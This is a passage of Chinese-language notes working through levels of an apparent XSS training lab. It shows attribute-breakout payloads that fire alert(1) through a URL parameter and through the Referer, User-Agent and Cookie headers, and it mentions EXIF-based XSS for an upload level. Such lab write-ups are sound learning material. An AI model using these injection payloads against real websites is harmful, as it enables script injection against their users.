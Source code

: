 ```
?t_link=1&t_history=2&t_ref=4&t_sort="><script>alert(1)</script><"
```

发现会进行转码

同理尝试

```
?t_link=1&t_history=2&t_ref=4&t_sort="%20onclick="alert(1)"%20type=""
```

发现""被转义了

```
<input name="t_sort"  value="&quot; onclick=&quot;alert(1)&quot; type=&quot;&quot;" type="hidden">
```



看wp，思考发现要从http下手



bp进行抓包

```
Referer: "type="text" autofocus onfocus="alert(1)"
```





### 12.

直接加到最后面即可

```
User-Agent: " type="text" autofocus onfocus="alert(1)"
```





### 13.

直接修改Cookie

```
Cookie: user=" type="button" onclick="alert(1)
```



### 14.

在线靶场无法显示上传按钮，不知道什么情况，直接改URL跳转到15题



后续发现可能是靶场太老，火狐也无法显示

但是看wp，说是改上传图片的exif信息来触发xss漏洞攻击

### 15.
